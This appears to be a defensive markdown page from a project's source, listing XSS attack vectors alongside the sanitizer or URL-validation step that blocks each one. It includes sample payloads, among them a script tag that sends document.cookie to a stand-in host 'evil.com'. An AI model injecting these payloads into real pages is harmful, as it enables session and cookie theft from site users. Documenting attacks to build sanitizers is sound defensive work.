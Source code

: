 ## Common Attack Vectors

### Script Tag Injection
```javascript
// ATTACK
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>

// MITIGATION
sanitizeHTML() removes all <script> tags and content
```

### Event Handler Injection
```javascript
// ATTACK
<img src="x" onerror="alert('XSS')">
<div onmouseover="maliciousCode()">Hover me</div>

// MITIGATION
sanitizeHTML() strips all on* event handlers
```

### JavaScript Protocol
```javascript
// ATTACK
<a href="javascript:alert('XSS')">Click me</a>

// MITIGATION
validateURL() blocks javascript: protocol
sanitizeHTML() converts javascript: to blocked:
```

### Data URI Attacks
```javascript
// ATTACK
<a href="data:text/html,<script>alert('XSS')</script>">Click</a>

// MITIGATION
validateURL() blocks data: protocol for navigation
```

### CSS Expression Attacks
```javascript
// ATTACK
<div style="background: expression(alert('XSS'))">Text</div>

// MITIGATION
sanitizeHTML() removes expression() patterns
```

### DOM Clobbering
```javascript
// ATTACK
<form name="test"><input name="test"></form>
// Creates window.test reference

// MITIGATION
Use getElementById instead of direct property access
Validate all DOM references
```
